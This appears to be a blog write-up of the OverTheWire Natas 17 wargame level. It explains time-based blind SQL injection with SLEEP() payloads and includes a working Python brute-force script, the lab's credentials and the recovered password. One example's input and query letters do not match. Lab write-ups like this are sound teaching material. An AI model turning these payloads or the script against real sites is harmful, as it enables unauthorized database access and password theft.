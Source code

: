 ```yaml
---
layout: post
title: "OverTheWire: Natas 17"
date: 2016-12-14 12:00:00
share: true
comments: true
tags: [OverTheWire - Natas]
---
```


Continuing with last few challenges' theme, this one is another SQL injection puzzle. Piece of code that matters is the following:

```php
<?  
  
/*  
CREATE TABLE `users` (  
  `username` varchar(64) DEFAULT NULL,  
  `password` varchar(64) DEFAULT NULL  
);  
*/  
  
if(array_key_exists("username", $_REQUEST)) {  
    $link = mysql_connect('localhost', 'natas17', '<censored>');  
    mysql_select_db('natas17', $link);  
      
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";  
    if(array_key_exists("debug", $_GET)) {  
        echo "Executing query: $query<br>";  
    }  
  
    $res = mysql_query($query, $link);  
    if($res) {  
    if(mysql_num_rows($res) > 0) {  
        //echo "This user exists.<br>";  
    } else {  
        //echo "This user doesn't exist.<br>";  
    }  
    } else {  
        //echo "Error in query.<br>";  
    }  
  
    mysql_close($link);  
} else {  
?>   
```

You'll notice a couple of thing:  

  * A table _users_ is created, with 2 fields `username` and `password`.
  * No output is shown for any input you pass.

What options do we have here? We won't be able to show error messages, use union based SQL injection since no output exists. How about [SLEEP()](https://www.pythian.com/blog/mysql-injection-sleep/)? We can force the SQL statement executed to reveal data by answering yes/no questions. 
Let's check first if we're able to use the sleep command and some examples to show how we can utilize it. You can use Fiddler as proxy for Windows or Burpsuite for Linux (or whatever tool that does the job) to observe duration.

  * **Input:** `natas18" and sleep(5) #` 
**Query:** 
```sqlSELECT
SELECT * from users where username="_natas18" and sleep(5) #
```
**Output: **Overall Elapsed:    0:00:05.384  
**Meaning**: User named natas18 exists and sleep(5) was executed.

  * **Input:** `idontexist" and sleep(5) #` 
    **Query:** 
```sql
    SELECT * from users where username="_idontexist" and sleep(5) #_  
```
    **Output:** Overall Elapsed:    0:00:00.372  
    **Meaning**: User named idontexist doesn't exists and sleep(5) was not executed.

  * **Input:**  natas18" and password like binary '%a%' and sleep(5) #`
    **Query:** `SELECT * from users where username="_natas18" and password like binary '%a%' and sleep(5) #`
    **Output:** Overall Elapsed:    0:00:00.359  
    **Meaning**: password for natas18 does not contain the letter 'a' and sleep(5) was not executed.

  * **Input:** `natas18" and password like binary '%d%' and sleep(5) #`
    **Query:** 
```sql
    SELECT * from users where username="_natas18" and password like binary '%a%' and sleep(5) #
```

    **Output: **Overall Elapsed:    0:00:00.359  
    **Meaning**: password for natas18 does contain the letter 'a' and sleep(5) was executed.

Noticed what happened? By asking the right question, you can tell it's a yes/no depending on the request duration!  
  
We'll be using a simple python script to automate the process for us, first by finding the set of characters that exist in password for user natas18 then reconstructing the password.  

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
Auth=HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')  
headers = {'content-type': 'application/x-www-form-urlencoded'}  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
  
for char in allchars:  
        payload = 'username=natas18%22+and+password+like+binary+%27%25{0}%25%27+and+sleep%281%29+%23'.format(char)  
        r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
        if(r.elapsed.seconds >= 1):  
                filteredchars = filteredchars + char  
                print(filteredchars)  
  
print(filteredchars)  
  
for i in range(0,32):  
        for char in filteredchars:  
                payload = 'username=natas18%22%20and%20password%20like%20binary%20\'{0}%25\'%20and%20sleep(1)%23'.format(passwd + char)  
                r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
                if(r.elapsed.seconds >= 1):  
                        passwd = passwd + char  
                        print(passwd)  
                        break  
```

Output:  

```    
d  
dg  
dgh  
dghj  
dghjl  
dghjlm  
dghjlmp  
dghjlmpq  
dghjlmpqs  
dghjlmpqsv  
dghjlmpqsvw  
dghjlmpqsvwx  
dghjlmpqsvwxy  
dghjlmpqsvwxyC  
dghjlmpqsvwxyCD  
dghjlmpqsvwxyCDF  
dghjlmpqsvwxyCDFI  
dghjlmpqsvwxyCDFIK  
dghjlmpqsvwxyCDFIKO  
dghjlmpqsvwxyCDFIKOP  
dghjlmpqsvwxyCDFIKOPR  
dghjlmpqsvwxyCDFIKOPR4  
dghjlmpqsvwxyCDFIKOPR47  
dghjlmpqsvwxyCDFIKOPR470  
dghjlmpqsvwxyCDFIKOPR470  
x  
xv  
xvK  
xvKI  
xvKIq  
xvKIqD  
xvKIqDj  
xvKIqDjy  
xvKIqDjy4  
xvKIqDjy4O  
xvKIqDjy4OP  
xvKIqDjy4OPv  
xvKIqDjy4OPv7  
xvKIqDjy4OPv7w  
xvKIqDjy4OPv7wC  
xvKIqDjy4OPv7wCR  
xvKIqDjy4OPv7wCRg  
xvKIqDjy4OPv7wCRgD  
xvKIqDjy4OPv7wCRgDl  
xvKIqDjy4OPv7wCRgDlm  
xvKIqDjy4OPv7wCRgDlmj  
xvKIqDjy4OPv7wCRgDlmj0  
xvKIqDjy4OPv7wCRgDlmj0p  
xvKIqDjy4OPv7wCRgDlmj0pF  
xvKIqDjy4OPv7wCRgDlmj0pFs  
xvKIqDjy4OPv7wCRgDlmj0pFsC  
xvKIqDjy4OPv7wCRgDlmj0pFsCs  
xvKIqDjy4OPv7wCRgDlmj0pFsCsD  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDj  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP  
```    

  
Natas 18 password is `xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`.
